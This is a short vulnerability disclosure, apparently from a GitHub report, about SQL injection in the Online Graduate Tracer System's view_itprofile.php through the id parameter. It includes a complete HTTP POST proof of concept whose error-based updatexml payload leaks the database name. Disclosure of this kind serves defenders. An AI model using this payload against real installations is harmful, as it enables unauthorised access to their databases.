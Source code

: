 ## Online Graduate Tracer System has sql injection vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/15904/online-graduate-tracer-system-college-ict-alumni.html

## Vulnerability file
/tracking/admin/view_itprofile.php

## Vulnerability analysis
<img width="1152" alt="image" src="https://github.com/user-attachments/assets/37488056-30bd-4343-b591-7e30a137c145">


## describe
There is an unrestricted SQL injection attack in the Online Graduate Tracer System, and the controllable parameter is id. An attacker can obtain sensitive server information through this vulnerability.

POC
```
POST /tracking/admin/view_itprofile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

id=1'%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q&checking_viewbtn=1
```
<img width="1242" alt="image" src="https://github.com/user-attachments/assets/58e78ce2-eb54-4120-aaac-fba66046c03c">







